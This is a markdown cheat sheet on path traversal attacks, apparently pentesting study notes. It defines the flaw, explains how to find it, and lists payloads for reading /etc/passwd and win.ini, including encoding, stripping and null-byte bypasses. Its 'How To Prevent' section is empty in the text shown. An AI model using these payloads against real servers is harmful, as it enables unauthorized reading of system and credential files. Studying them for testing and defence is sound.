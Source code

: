 # Path Traversal

</br>

## Definition
- File Path Traversal (or Directory Traversal) is a vulnerability that allows an attacker to read files on the server that is running the application.

</br>

---

## How To Find
- *Map the application:*
    - Identify all instances where the web application appears to contain the name of a file or directory.
    - Identify all functions in the application whose implementation is likely to involve retrieval of data from a server filesystem.
- Test identified instances with common directory traversal payloads and observe how the application responds.
    - Some common payloads:
        ```bash
        ../../../../etc/passwd
        ../../../etc/passwd
        ../../.htaccess
        \..\WINDOWS\win.ini
        \..\..\WINDOWS\win.ini
        ```
- Automatae testing using a web application vulnerability scanner (WAVS).

<br/>

---
## How To Exploit
- **Regular case**
    - Examples:
        ```bash
        ../../../../etc/passwd
        .\..\..\..\..\WINDOWS\win.ini
        ```
- **Absolute path case**
    - Example:
        ```bash
        /etc/passwd
        ```
- **Traversal sequences stripped non-recursively**
    - Example:
        ```bash
        ....//....//...//etc/passwd
        ```
- **Bypass traversal sequences stripped defense using URL encoding (single or double encoding)**

- **Bypass start of path validation**
    - Example:
        ```bash
        /var/www/images/../../../etc/passwd
        ```

- **Bypass file extinsion validation using Null Byte**
    - Example:
        ```bash
        ../../../etc/passwd%00.png
        ```
</br>

---
## How To Prevent